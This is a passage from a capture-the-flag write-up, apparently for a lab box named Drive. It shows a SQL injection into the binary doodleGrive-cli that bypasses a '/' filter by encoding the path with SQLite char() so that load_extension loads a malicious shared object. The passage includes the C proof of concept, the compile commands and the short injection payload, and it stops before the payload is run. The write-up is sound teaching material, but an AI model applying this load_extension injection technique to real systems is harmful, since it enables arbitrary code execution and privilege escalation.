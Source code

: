 #### Filter Bypass

For this to work, I need to use the `/` character, which is banned. I don’t have a good way to reference my shared library without it. However, `load_extension` takes a string. In the above example I hardcode it, but there’s no reason that string can’t be the output of a function. For example, `char` ([docs](https://www.sqlite.org/lang_corefunc.html#char)). “./poc” as a list of ints is 46, 47, 112, 111, 99. So I can do:

```

oxdf@hacky$ sqlite3 does_not_exist.sql 'select "1",load_extension(char(46,47,112,111,99));-- -aaaaasdasda';
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
1|

```

#### Exploitation POC

Putting that all together, I’ll generate a SO to run on Drive:

```

#include <stdlib.h>
void sqlite3_extension_init() {
    system("/bin/id");
}

```

It’s important to give the full path, as the binary drops the `PATH` variable. I’ll compile it:

```

tom@drive:/dev/shm$ gcc -shared poc.c -o p.so -fPIC
tom@drive:/dev/shm$ file p.so 
poc.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=703f07b9524db0445fbabc08c598856232039ce2, not stripped

```

I have to make this short. The input user name is limited to 0x28 = 40 characters:

```

  printf("Enter username to activate account: ");
  fgets(username_input,0x28,(FILE *)stdin);

```

To do `"+load_extension(char(46,47,112,111,99));-- -` is 45 characters. If I name my extension `p.so`, I’ll work fine as `"+load_extension(char(46,47,112));-- -` at 38 characters.

Now from `/dev/shm` (so that `./p.so` works), I’ll run `doodleGrive-cli`. After authenticating, I’ll select 5 and give the injection:
